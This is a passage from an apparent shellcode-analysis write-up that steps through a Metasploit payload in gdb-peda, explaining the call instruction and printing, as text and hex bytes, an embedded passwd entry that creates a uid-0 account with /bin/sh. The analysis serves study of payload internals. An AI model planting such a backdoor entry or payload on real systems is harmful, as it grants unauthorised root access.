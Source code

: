 <p style="text-align:justify;">As we see at the code snippet below the execution flow will be redirected at offset <strong>0x53 </strong>from the beginning of the shellcode</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>call 0x53      </strong><span style="color:#33cccc;"><strong>; redirect execution flow at offset 0x53</strong> </span></pre>
<p style="text-align:justify;">The <strong>call</strong> instruction performs two operations:</p>
<ol>
<li>It pushes the return address (address immediately after the <strong>call</strong> instruction) on the stack.</li>
<li>It changes <strong>eip</strong> to the call destination. This effectively transfers control to the call target and begins execution there.</li>
</ol>
<p style="text-align:justify;">Having in mind these two operations of the <strong>call</strong> instruction, it is interesting to check <strong>gdb-peda</strong> about the return address that pushed on the stack.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">0x00404066 &lt;+38&gt;: call 0x404090 &lt;shellcode+80&gt;
<strong>0x0040406b</strong> &lt;+43&gt;: ins DWORD PTR es:[edi],dx</pre>
<p style="text-align:justify;">Afterwards, and when the execution flow redirected at address <strong>0x404090, </strong>by checking that address<strong>&nbsp;</strong>we see the string highlighted in red below.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">gdb-peda$ p/x $esp
$40 = 0xbffff4d8
gdb-peda$ p/s *0xbffff4d8
$41 = 0x40406b
gdb-peda$ x/-s 0x40406b
<strong>0x40406b</strong> &lt;shellcode+43&gt;: "<span style="color:#ff0000;">metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh</span><span style="color:#33cccc;">\n</span>Y\213Q\374j\004X\315\200j\001X\315\200"
gdb-peda$</pre>
<p style="text-align:justify;">Also as seen above the valid string is terminated with the <strong>'\n'</strong> new line character which separates it from the rest invalid characters. Furthermore, analysing the code using <strong>gdb</strong> we can see the following hexadecimal values in red colour below starting from the address <strong>0x40406b</strong></p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">gdb-peda$ <strong>x/42x 0x40406b</strong>
0x40406b &lt;shellcode+43&gt;: <span style="color:#ff0000;">0x6d 0x65 0x74 0x61 0x73 0x70 0x6c 0x6f</span>
0x404073 &lt;shellcode+51&gt;:<span style="color:#ff0000;"> 0x69 0x74 0x3a 0x41 0x7a 0x2f 0x64 0x49</span>
0x40407b &lt;shellcode+59&gt;: <span style="color:#ff0000;">0x73 0x6a 0x34 0x70 0x34 0x49 0x52 0x63</span>
0x404083 &lt;shellcode+67&gt;: <span style="color:#ff0000;">0x3a 0x30 0x3a 0x30 0x3a 0x3a 0x2f 0x3a</span>
0x40408b &lt;shellcode+75&gt;: <span style="color:#ff0000;">0x2f 0x62 0x69 0x6e 0x2f 0x73 0x68 0x0a</span>
0x404093 &lt;shellcode+83&gt;: <span style="color:#ff0000;">0x59 0x8b</span></pre>
<p style="text-align:justify;">These bytecodes are actually representing the code between offset <strong>0000002B</strong> and offset <strong>00000053</strong> where the execution is redirected from instruction <strong>call 0x53</strong> as seen from <strong>ndisasm</strong> output below.</p>